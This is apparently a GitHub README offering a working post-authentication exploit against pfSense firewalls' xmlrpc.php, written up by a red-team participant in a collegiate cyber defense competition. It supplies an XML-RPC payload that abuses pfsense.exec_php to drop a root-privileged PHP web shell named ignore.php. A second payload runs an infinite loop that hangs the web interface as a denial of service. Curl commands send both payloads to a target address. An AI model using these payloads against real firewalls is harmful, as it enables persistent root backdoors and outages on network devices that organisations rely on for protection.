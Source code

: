 # Quick Introduction

This is a sample payload and example use of abusing pfSense's xmlrpc.php functions to establish a backdoor
and get root level access to pfSense firewalls.

This exploit is post-auth (for the admin account) and as it stands is considered a non-issue according to 
the pfSense security team, since this password is shared for both the web and ssh services (ssh wasn't WAN 
accessible when this was used). This authentication method bypasses security rules  that apply to auth attempts 
against the web and is treated as a `local_backed` authentication attempt.  Any PHP shells that are dropped
to web root will run with full root perms.  It is also worth noting the web server appears to be single threaded
so spinning up a long running exec (such as a loop or ping without count) will effectively DoS the web server
and stop web based authentication and administration.

This was discovered during the 2015 [SECCDC](http://en.wikipedia.org/wiki/Southeastern_Collegiate_Cyber_Defense_Competition) 
competition and was used to drop active backdoors on teams firewalls. I am releasing it because I thought it was interesting and could be handy 
for other Red Teams.  

## The XML PHP backdoor payload
This payload can be sent to the pfSense box, it will utilize the `pfsense.exec_php` method to write a very simple 
php backdoor named `ignore.php` to the webroot on the firewall.

```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pfsense.exec_php</methodName>
<params>
<param><value><string>password</string></value></param>
<param><value><string>exec('echo \'&lt;pre&gt; &lt;?php $res = system($_GET["cmd"]); echo $res ?&gt; &lt;/pre&gt;\' > /usr/local/www/ignore.php');</string></value></param>
</params>
</methodCall>
```

## Simple usage
Using this payload against the pfSense xmlrpc.php file is a simple HTTP request using curl

```
curl --data pfsense_exec http://10.10.100.1/xmlrpc.php
```

## The backdoor in use at SECCDC
![ignore.php in use](/images/backdoored.png)

## The XML DoS
This payload can be sent to the pfSense box, it will lock up the web server so web based authentication and
administration will not function.

```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pfsense.exec_php</methodName>
<params>
<param><value><string>password</string></value></param>
<param><value><string>exec('while true; do sleep 1; done');</string></value></param>
</params>
</methodCall>
```

## Simple usage
Using this payload against the pfSense xmlrpc.php file is a simple HTTP request using curl

```
curl --data pfsense_dos http://10.10.100.1/xmlrpc.php
```



